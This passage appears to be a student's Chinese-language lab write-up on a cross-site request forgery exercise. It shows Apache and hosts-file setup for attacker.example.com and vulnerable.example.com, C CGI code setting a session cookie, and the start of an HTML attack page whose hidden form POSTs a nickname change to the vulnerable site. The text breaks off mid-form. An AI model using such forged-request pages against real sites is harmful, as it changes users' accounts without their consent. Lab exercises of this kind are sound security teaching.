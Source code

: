     <VirtualHost *:80>
        ServerName attacker.example.com
        DocumentRoot /var/www/attacker
        <Directory /var/www/attacker/>
           Require all granted
        </Directory>
    </VirtualHost>
    ```
    
2.  **實作一個登入後可以修改使用者暱稱的 CGI 放在 `vulnerable.example.com`**
        
    我使用的cgi是與前面練習題一模一樣的cgi以及html。之後測試登入都沒問題。
        
    後面發現更改etc/hosts檔案新增
        
        172.16.222.101 attacker.example.com
        172.16.222.101 vulnerable.example.com
        
    之後就可透過下面兩個domain連到對應的html  
        [http://attacker.example.com/CSRF_attack.html](http://attacker.example.com/CSRF_attack.html)  
    [http://vulnerable.example.com/change_nickname.html](http://vulnerable.example.com/change_nickname.html)
    
3.  **實作一個網頁放在 `attacker.example.com` 可以發 Request 給 `vulnerable.example.com` 達成跨站攻擊，成功修改使用者名稱**
        
    接著實作攻擊的部分，首先需要確保使用者登入後頁面有紀錄以及保存cookie
        
    因此在登入後在http標頭設定cookie
        
    ```c
        printf("Set-Cookie: sessionID=%s; Path=/; HttpOnly\r\n",userSessionID);
        printf("Content-type: text/html\n\n");
    ```
    接著透果f12檢查是否成功

    ![](https://s3-ap-northeast-1.amazonaws.com/g0v-hackmd-images/uploads/upload_4a1aa224c93ae79115faa5799925ac78.png)


        
    可以看到使用者的cookie有確實被儲存。接著進行攻擊部分。在attacker的html中，設定想要更改的userID，透過對方在登入狀態目前保存有效cookie時送出更改userID的POST請求
        
    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>CSRF Attack Page</title>
    </head>
    <body>
        <h1>CSRF Attack Page</h1>
        <p>This page will attempt to log in and change the user ID on vulnerable.example.com</p>

        <!-- Form to change user ID -->
        <form id="csrfForm" method="POST" action="http://vulnerable.example.com/cgi-bin/change_nickname.cgi">
            <input type="hidden" name="action" value="updateUserID">
            <input type="hidden" name="currentUserID" value="webmail123">
            <input type="hidden" name="newUserID" value="HackedUserID">
        </form>
